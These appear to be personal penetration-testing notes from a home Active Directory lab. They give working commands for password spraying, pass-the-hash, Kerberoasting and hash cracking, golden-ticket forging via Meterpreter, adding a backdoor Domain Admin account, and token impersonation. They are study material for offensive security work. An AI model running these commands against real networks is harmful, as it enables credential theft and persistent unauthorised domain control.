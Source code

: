 ### NetExec
**Password spraying:** `crackmapexec smb 10.0.2.0/24 -u mmeow -d LIFELINE.local -p Password1`
> Check for local admin access of a given account

**List Local Administrators:** `nxc smb 10.0.2.9 -u 'daethyra' -H 'hash' --local-auth -x 'net localgroup administrators'`
# Persistence
### Shadow user
>Requires having Administrator/SYSTEM access

1. `net user /add <username> <password> /domain`
2. `net group "Domain Admins" <username> /ADD /DOMAIN`
### Golden Tickets
You may wish to simply review [Golden Diamond and Sapphire Attacks](../Post%20Compromise/Kerberoasting/Golden%20Diamond%20and%20Sapphire%20Attacks.md) for technological details.
#### Dump Service Principal Names (Kerberoasting)
> Fetch Service Principal Names that are associated with normal user accounts, NOT machines. User generated SPNs are based on user-created  passwords, which means they're weaker, which means they can actually be cracked.

`sudo GetUserSPNs.py LIFELINE.local/mmeow:Password1 -dc-ip 10.0.2.7 -request`
- In my lab, this dumped out a kerberoast ticket for the SQLService account which I then cracked via Hashcat(`hashcat -m 13100 kbr.txt /usr/share/wordlists/rockyou.txt`)
#### Create Golden Kerberos Ticket via Meterpreter
> The following workflow requires a Meterpreter session to be followed exactly as written

**Steps**:
1. `load kiwi`
2. `golden_ticket_create -d LIFELINE.local -k 43460d636f269c709b20049cee36ae7a -s S-1-5-21-1304479805-1949792208-3801273171 -u daethyra -t goldenkrb.ticket`
#### Find Domain SID

`nxc ldap 10.0.2.7 -u daethyra -p Password123 --get-sid`
- Running with `-k` flag, [as shown here](https://www.netexec.wiki/ldap-protocol/find-domain-sid), repeatedly failed to extract the SID
#### Token Impersonation w/ Incognito via Meterpreter
It may be helpful to check which user you are when first landing in a Meterpreter shell.
**Meterpreter shell steps**:
>Requires a user be logged in
1. `load incognito`
2. `list_tokens -u`
3. `impersonate_token <domain>\\<user>`
>>>Requires double backslash to escape the character

---
# Resources
1. https://www.netexec.wiki/smb-protocol/obtaining-credentials
2. https://www.netexec.wiki/ldap-protocol/find-domain-sid
3. https://dazzyddos.github.io/posts/Abusing_Exclusions_To_Evade_Detection/
4. https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide


#windows #meterpreter #lateral-movement #persistence #mimikatz #security-account-manager #local-security-authority #sam #lsa #netexec #domain-sid #kerberos #kerberoasting #data-exfiltration #post-exploitation #recon #uncredentialed-access #credentialed-access #metasploit 